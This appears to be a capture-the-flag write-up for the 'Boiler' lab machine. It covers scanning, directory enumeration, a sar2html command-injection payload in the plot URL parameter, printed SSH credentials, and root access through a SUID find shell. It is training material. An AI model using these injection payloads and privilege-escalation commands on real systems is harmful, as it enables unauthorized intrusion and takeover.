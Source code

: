 ![Screenshot 2023-10-25 155908.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/default_tryhackme.png)
![Screenshot 2023-10-25 155908.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/image.jpeg)

# Boiler_CTF

Intermediate level CTF. Just enumerate, you'll get there.

## #Scanning

```jsx
nmap -A -Pn -p- -T4 10.10.205.161 -oN nmap_result.txt
```

![Screenshot 2023-10-25 155908.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_155908.png)

![Screenshot 2023-10-25 160112.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_160112.png)

Here we found open port 21, 80, 10000, and 55007 which run ssh services .

## #FTP Enumeration

```jsx
ftp 10.10.205.161
```

![Screenshot 2023-10-25 160356.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_160356.png)

![Screenshot 2023-10-25 161002.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_161002.png)

It Seems like some kind of rotation cipher. So, I use [CyberChef](https://gchq.github.io/CyberChef/) to find out.

![Screenshot 2023-10-25 160935.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_160935.png)

Ah! Yes. its a ROT13 and this text is decrypted to :

> *Just wanted to see if you find it. Lol. Remember: Enumeration is the key!*
> 

## #Directory Enmeration

```jsx
gobuster dir -u http://10.10.205.161/ -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 20
```

![Screenshot 2023-10-25 161440.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_161440.png)

```jsx
gobuster dir -u http://10.10.205.161/joomla -w /home/kali/Downloads/SecLists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt -o gobuster_output.txt -t 20
```

we have found  many directories but there is a particular direction called `/_test/` which have some interesting service running.

![Screenshot 2023-10-25 164247.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-25_164247.png)

**sar2html**? huh!. A quick search on google about sar2html. We found out **sar2html RCE** on [exploit-db](https://www.exploit-db.com/exploits/47204).

![Screenshot 2023-10-26 004102.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_004102.png)

![Screenshot 2023-10-26 004139.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_004139.png)

```jsx
http://10.10.205.161/joomla/_test/?plot=;ls
```

And it worked! We can see the **log.txt** file. Now we have to use cat to read the file.

```jsx
http://10.10.205.161/joomla/_test/?plot=;cat log.txt
```

![Screenshot 2023-10-26 001130.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_001130.png)

And BOOM! We got the **SSH** username: **basterd** and password: **superduperp@$$**

## #Initial Foothold

```jsx
ssh basterd@10.10.205.161 -p 55007
```

![Screenshot 2023-10-26 001556.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_001556.png)

## #Pivoting

![Screenshot 2023-10-26 001828.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_001828.png)

```jsx
su stoner
password : superduperp@$$no1knows
```

![Screenshot 2023-10-26 002114.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_002114.png)

## #Privilege Escalation

```jsx
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

![Screenshot 2023-10-26 002434.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_002434.png)

In the list there is **find** commnad which have SUID bit set which means we can run find as root user. Using **-exec** flag as shown above. Let’s try out by changing the permission of root directory.

```jsx
find . -exec chmod 777 /root \;
```

or we have use [`gtfobins`](https://gtfobins.github.io/gtfobins/find/#suid) websites to get the find command for root privilege.

![Screenshot 2023-10-26 003536.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_003536.png)

```jsx
/usr/bin/find . -exec /bin/sh -p \; -quit
```

![Screenshot 2023-10-26 003637.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_003637.png)

Now find the final flag! 

![Screenshot 2023-10-26 003820.png](Boiler_CTF%202fd0e913c674474ca24d50d2b61f46f5/Screenshot_2023-10-26_003820.png)